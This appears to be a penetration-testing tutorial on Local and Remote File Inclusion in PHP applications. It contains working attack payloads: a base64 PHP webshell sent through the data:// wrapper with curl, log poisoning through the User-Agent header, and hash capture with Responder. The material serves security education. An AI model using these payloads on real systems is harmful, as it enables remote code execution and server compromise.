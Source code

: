 # File Inclusion

## Overview

File Inclusion is a common web application vulnerability, which can be easily overlooked as part of the application functionality. Server-side languages such as PHP or JSP can dynamically include external scripts, reducing the script's overall size and simplifying the code. 
If this inclusion logic isn't implemented properly, attackers can include both local and remote files, potentially leading to source code disclosure, sensitive data exposure, and code execution under certain conditions. 
There are two types of file inclusion, namely Local File Inclusion (LFI) and Remote File Inclusion (RFI).

LFI or Local File Inclusion occurs when an attacker is able to get a website to include a file that was not
intended to be an option for this application. A common example is when an application uses the path to a
file as input. If the application treats this input as trusted, and the required sanitary checks are not
performed on this input, then the attacker can exploit it by using the ../ string in the inputted file name
and eventually view sensitive files in the local file system. In some limited cases, an LFI can lead to code
execution as well.

RFI or Remote File Inclusion is similar to LFI but in this case it is possible for an attacker to load a remote
file on the host using protocols like HTTP, FTP etc.

## LFI vs RFI

Almost any Remote File Inclusion (RFI) can also be a Local File Inclusion (LFI); however, any LFI may not be an RFI. This is primarily because of two reasons:

You may only control a portion of the filename and not the entire protocol wrapper (ex: http://, ftp://, https://)

The configuration may prevent RFI all together. For example, in PHP, by setting allow_url_include to 0, it will not be possible to use remote sources within the include() statement.

## Examples of where this vulnerability can happen

The most common place you will find LFI Vulnerabilities is within templating engines. This is because websites want to keep a large majority of the website the same when navigating between pages, such as the header, navigation bar, and footer. Without dynamic page generation, every page on the server would need to be modified when changes are made to any of those sections. This is why you will often see a parameter like /index.php?page=about. Under the hood, index.php will probably pull header.php, about.php, and footer.php. Since you control the about portion of the request, it may be possible to have the webserver grab other files! Another common place is within languages. If you see ?lang=en; then the website will grab files from the /en/ directory.

## Local File Inclusion into Remote Code Execution

LFI can lead to Remote Code Execution (RCE) under some conditions, resulting in a complete server compromise. One common way is to poison log files, which are modified based on requests to the webserver.

## After finding a PHP LFI vulnerability

After finding a LFI, we can try to exploit it by getting the NETNTLMv2 hash by using the tool Responder to load aan SMB URL and then brute force it with john.

We can do this because even if allow_url_include and allow_url_fopen are set to "Off", PHP will not prevent the loading of SMB URLs.

If allow_url_include is set to on in php.ini, we can send a webshell over the data php wrapper:

```shell
echo '<?php system($_GET["cmd"]); ?>' | base64
PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==

curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

## Log poisoning

If we can include some log files, we can try to poison them by understanding what the logs are logging, and send some php so it is interpreted when the log file is shown.

For example, if the log contains the user agent, we can send 

```shell
<?php system($_GET['cmd']); ?>
```

as the user agent header and then do

Get /index.php?language=/var/log/apache2/access.log&cmd=id

## Interesting files to disclose - Linux

/proc/self/cmdline

	contains the command-line arguments used to start the currently running process. Usually will containt the current active folder.

## See Also

	https://book.hacktricks.xyz/pentesting-web/file-inclusion
